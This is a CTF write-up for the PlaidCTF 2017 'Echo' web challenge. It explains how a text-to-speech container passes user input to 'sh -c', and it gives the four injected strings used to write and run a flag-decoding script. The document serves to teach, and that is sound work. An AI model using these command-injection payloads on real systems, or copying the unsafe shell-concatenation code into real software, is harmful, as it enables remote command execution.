 # PlaidCTF 2017 - Echo

| Category | Points | Solves |
| -------- |--------| -------|
| Web      | 200    | 132    |

> If you hear enough, you may hear the whispers of a key... 
> If you see [app.py](echo_57f0dd57961caae2fd8b3c080f0e125b.py) well enough, you will notice the UI sucks... 
> 
> http://echo.chal.pwning.xxx:9977/
>
> http://echo2.chal.pwning.xxx:9977/

## Solution

We are given with an application that converts strings into audio using a Docker container which is [publicly available](https://hub.docker.com/r/lumjjb/echo_container/):

```python
    docker_cmd = "docker run -m=100M --cpu-period=100000 --cpu-quota=40000 --network=none -v {path}:/share lumjjb/echo_container:latest python run.py"

    tweets = []
    for i in range(4):
        t = request.args.get('tweet_' + str(i+1))
        tweets.append(t)

    my_path = "/tmp/echo/" + uuid.uuid4().hex + "/"

    # strings are saved on /tmp/echo/uuid/input
    with open(my_path + "input" ,"w") as f:
        f.write('\n'.join(tweets))
   
    # encrypted flag is stored on /tmp/echo/uuid/flag
    process_flag(my_path + "flag")
    
    subprocess.call(docker_cmd.format(path=my_path).split())
```

The process_flag function takes the original flag and stores it in the input file using a reversible encryption algorithm:

```python
    with open('/tmp/echo/uuid/flag','w') as f:
        for x in flag:
            c = 0
            towrite = ''
            for i in range(65000 - 1):
                k = random.randint(0,127)
                c = c ^ k
                towrite += chr(k)

            # 64999 bytes with k states +
            # 1 byte of a flag char xored with the c state
            # final size = 65000 * # of chars on the flag
            f.write(towrite + chr(c ^ ord(x)))
    return
```


A shared folder is being used inside the container to transfer files to and from the main application as seen on the docker_cmd spec. Following you can see the folder mappings:

| Host | Guest | Description |
| ---- | ----- | ----------- |
| /tmp/echo/uuid/ | /share/ | Share folder pointing to unique path on host |
| /tmp/echo/uuid/input | /share/input | Tweets |
| /tmp/echo/uuid/out/ | /share/out/ | Folder used to store audio files |
| /tmp/echo/uuid/flag | /share/flag | Encrypted flag from process_flag function |


The [run.py](run.py) application inside the Docker container is vulnerable to remote command execution:

```python
    with open('/share/input') as f:
        lines = f.readlines()
        i=0
        for l in lines:
            i += 1
            l = l.strip()
            call(["sh","-c", "espeak " + " -w " + OUTPUT_PATH + str(i) + ".wav \"" + l + "\""])
```

We have now two options to solve the problem:

1. Get the entire flag file using the espeak command, and the automate the data extraction from the wav file.
2. Decrypt the flag file directly on the server and get it as an audio file.

I first went for the entire flag file extraction and promptly have technical issues, the process_audio function ignores audio with more than 5MB. To get one character from the file we needed to get 65k bytes and convert them into audio, with an hexadecimal codification the final audio was heavier than expected (100MB), so the function ignores the file completely.

Finally, the second option was implemented with a friend advice. The following script was used to decrypt the file:

```python
with open('/share/flag','rb') as f:
    while True:
        b = f.read(65000)
        
        if not b:
            break
        
        c=0
        for i in range(64999):
            c = c ^ ord(b[i])
        
        print hex(c ^ ord(b[64999]))[2::]
```

The four injected strings were:
```bash
";echo "with open('/share/flag','rb') as f:\n while True:\n  b = f.read(65000)\n  if not b:\n   break\n  c=0\n">/share/out/test;echo "
";echo "  for i in range(64999):\n   c = c ^ ord(b[i])\n  print hex(c ^ ord(b[64999]))[2::]\n">>/share/out/test;"
";python2 /share/out/test> /share/out/words 2>&1;echo "
";espeak -s 150 -g 50 -w /share/out/1.wav -f /share/out/words;echo "
```

You can hear the flag from the [first audio file](1.wav).

## Flag
> PCTF{L15st3n_T0__reee_reeeeee_reee_la}